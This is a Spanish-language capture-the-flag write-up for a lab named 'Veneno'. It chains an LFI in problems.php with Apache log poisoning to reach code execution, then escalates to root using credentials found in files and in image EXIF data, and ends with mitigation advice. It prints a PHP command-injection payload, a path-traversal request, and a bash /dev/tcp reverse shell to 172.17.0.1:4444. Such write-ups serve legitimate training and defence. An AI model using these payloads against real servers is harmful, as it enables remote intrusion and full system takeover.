# Veneno — Análisis técnico (mejorado)

## Introducción

El objetivo de este laboratorio (CTF de dificultad media) es ilustrar un flujo de explotación basado en LFI (Local File Inclusion) y envenenamiento de logs (log poisoning) sobre un servicio web Apache desplegado en un contenedor Docker, así como las técnicas de escalada de privilegios derivadas.

## Metodología

El análisis siguió un flujo clásico de pruebas de penetración web: reconocimiento de servicios, descubrimiento de contenido web, fuzzing de parámetros, verificación de inclusión de ficheros y explotación mediante inyección en logs para lograr ejecución remota, y finalmente enumeración para escalada de privilegios.

### Reconocimiento inicial

Se realizó un barrido de puertos con Nmap para identificar servicios expuestos y versiones, lo que permitió confirmar la presencia de un servidor HTTP (puerto 80) y SSH (puerto 22):



### Descubrimiento de directorios y parámetros

Al inspeccionar el servicio web se observó la página por defecto de Apache. Para localizar recursos ocultos se empleó un escaneo de directorios con Gobuster, detectando los endpoints `uploads` y `problems.php`:



A continuación se aplicó fuzzing paramétrico (FFUF) sobre `problems.php`, lo que reveló el parámetro `?backdoor=` como vector de interés. Una prueba básica con comandos (por ejemplo `id`, `pwd` o `whoami`) mostró cambios en la respuesta, indicando que el parámetro permitía incluir o referenciar ficheros del sistema:



El escaneo de posibles rutas devolvía resultados que permitían acceder a ficheros sensibles del sistema de archivos, entre ellos `/etc/passwd`:



La lectura de `/etc/passwd` confirmó la existencia de cuentas de interés (por ejemplo `ubuntu` y `carlos`):



### Verificación de comportamiento y vector de explotación

Aunque se intentó una fuerza bruta contra SSH, esta vía no resultó fructífera. En su lugar, se comprobó que los logs de Apache (`/var/log/apache2/error.log` y `access.log`) contenían entradas controladas por peticiones HTTP previas, lo que abre la posibilidad de lograr ejecución si dichas entradas son posteriormente incluidas o interpretadas por la aplicación:



Con base en ello se ensayó un ataque de envenenamiento de logs (log poisoning) para introducir código PHP en el registro de accesos y forzar su ejecución a través del LFI identificado.

Primero se colocó una entrada que habilita ejecución de código PHP en un fichero de logs mediante una petición codificada (URL):

`http://172.17.0.2/%3c%3fphp%20system($_GET['cmd']);%20%3f%3e.php`

La ejecución se verificó leyendo el log a través del parámetro vulnerable:

`http://172.17.0.2/problems.php?backdoor=../../../../../../../var/log/apache2/error.log&cmd=id`

Una vez verificada la ejecución remota de comandos, se utilizó una carga útil para establecer una reverse shell hacia la máquina atacante (escucha en el puerto 4444):

`http://172.17.0.2/problems.php?backdoor=/../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F4444%200%3E%261%27`

Equivalente legible del payload:

`bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'`

> Nota: antes de realizar la explotación, el atacante debe poner en escucha un listener local (por ejemplo `nc -lnvp 4444`).

Tras el envío del payload, se obtuvo una sesión remota con el usuario `www-data`:



### Enumeración y escalada de privilegios

Con acceso como `www-data` se inició la enumeración de ficheros y credenciales locales. Se inspeccionaron ficheros de usuario y se localizaron documentos sensibles:



Uno de los hallazgos fue una contraseña antigua (mencionada como utilizada desde hace más de 24 años). Para encontrar dicha contraseña, se buscaron ficheros con antigüedad elevada para identificar credenciales obsoletas almacenadas en texto plano:

`find / -type f -mtime +8760 2>/dev/null | head -10`

La credencial disponible permitió iniciar sesión por SSH como `carlos`:

`ssh carlos@172.17.0.2`



Dentro del entorno del usuario `carlos` se realizó un inventario de ficheros (incluyendo listados recursivos) y se encontró una imagen oculta `toor.jpg`:



Se descargó la imagen al equipo atacante (copia y transferencia mediante servidor HTTP/Wget) para su análisis offline:




Al analizar los metadatos de la imagen se identificó una credencial escondida en los campos EXIF:



El contenido recuperado mostró credenciales con privilegios administrativos, que al utilizarse con `su` permitieron escalar a `root`:



## Conclusión

Se demostró una cadena de explotación completa: reconocimiento → descubrimiento de recursos web → LFI en `problems.php` → envenenamiento de logs para lograr ejecución remota → reverse shell como `www-data` → enumeración y recuperación de credenciales → acceso SSH como `carlos` → extracción de credenciales desde metadatos de imágenes → escalada a `root`. El impacto es crítico: acceso total al sistema (privilegios root), exposición de contraseñas en texto plano y posibilidad de movimiento lateral en entornos similares.

## Mitigación / Recomendaciones de corrección

1. Validación y saneamiento de entradas: Implementar validación estricta del parámetro `backdoor` (uso de listas blancas de rutas o validación basada en patrones esperados). Evitar el uso de datos controlados por el usuario en funciones de inclusión de ficheros.

2. Configuración segura de PHP: Desactivar `allow_url_include`, considerar `open_basedir` para restringir rutas accesibles y asegurar que las extensiones y handlers no interpreten registros como código ejecutable.

3. Protección de logs: Evitar que entradas de usuario puedan convertirse en código ejecutable. Restringir permisos sobre ficheros de log (no world-readable/writable) y realizar filtrado de caracteres peligrosos en las entradas que se registran.

4. Gestión de credenciales: Eliminar contraseñas almacenadas en texto plano; establecer políticas de rotación periódica y exigir contraseñas robustas. Desactivar autenticación por contraseña en SSH y usar autenticación por claves donde sea posible.

5. Hardening del servicio SSH y del sistema: Restringir cuentas con acceso SSH, emplear medidas de detección de fuerza bruta (fail2ban), y aplicar principios de mínimo privilegio en los servicios y ficheros.

6. Control de metadatos en ficheros subidos: Para sistemas que aceptan subida de ficheros, limpiar metadatos (strip EXIF) o realizar análisis automático que detecte información sensible antes de almacenar o servir la imagen.

7. Monitorización y alertas: Implementar registro y alertas en puntos críticos (inclusiones de archivos, patrones de LFI, tendencias de logs anómalos) para detectar intentos de explotación tempranamente.

---

> Observación: Este informe mantiene los comandos y payloads utilizados en la explotación para facilitar reproducción y mitigación. En entornos de producción, aplicar las contramedidas recomendadas de forma prioritaria.
